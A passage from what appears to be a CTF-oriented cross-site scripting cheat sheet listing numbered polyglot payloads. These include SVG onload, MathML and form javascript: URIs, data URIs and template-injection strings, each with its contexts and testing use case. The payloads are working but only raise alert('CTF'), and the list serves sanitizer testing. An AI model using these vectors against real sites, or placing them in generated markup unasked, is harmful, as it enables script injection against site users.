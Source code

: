 21. **XML CDATA Escape**  
    ```
    <![CDATA[><svg onload=alert('CTF')>]]>
    ```
    - **Contexts**: XML, HTML, SVG.
    - **Use Case**: Tests XML CDATA handling.

22. **SVG XML Injection**  
    ```
    <svg xmlns="http://www.w3.org/2000/svg" onload="alert('CTF')"/>
    ```
    - **Contexts**: SVG, XML, HTML.
    - **Use Case**: Tests SVG rendering in XML contexts.

23. **MathML Polyglot**  
    ```
    <math href="javascript:alert('CTF')">CLICKME</math>
    ```
    - **Contexts**: MathML, HTML, JavaScript.
    - **Use Case**: Tests MathML href attributes.

24. **Template Engine Polyglot**  
    ```
    {{alert('CTF')}}<%=alert('CTF')%><svg onload=alert('CTF')>
    ```
    - **Contexts**: Template engines (e.g., Handlebars, ERB), HTML, JavaScript.
    - **Use Case**: Tests server-side template injections.

25. **Base64 SVG Data URI**  
    ```
    data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoJ0NURicpPg==
    ```
    - **Contexts**: Data URLs, SVG, HTML.
    - **Use Case**: Tests base64-encoded SVG in image or iframe src.

26. **Form Action Polyglot**  
    ```
    <form action=javascript:alert('CTF')><input type=submit>
    ```
    - **Contexts**: HTML, JavaScript, forms.
    - **Use Case**: Tests form action attributes.

### Protocol Handler Polyglots
27. **JavaScript Protocol**  
    ```
    javascript:alert('CTF')
    ```
    - **Contexts**: JavaScript, URL.
    - **Use Case**: Tests direct JavaScript URI handling.

28. **Data Protocol Script**  
    ```
    data:text/html,<script>alert('CTF')</script>
    ```
    - **Contexts**: Data URLs, HTML, JavaScript.
    - **Use Case**: Tests data URI in links or iframes.
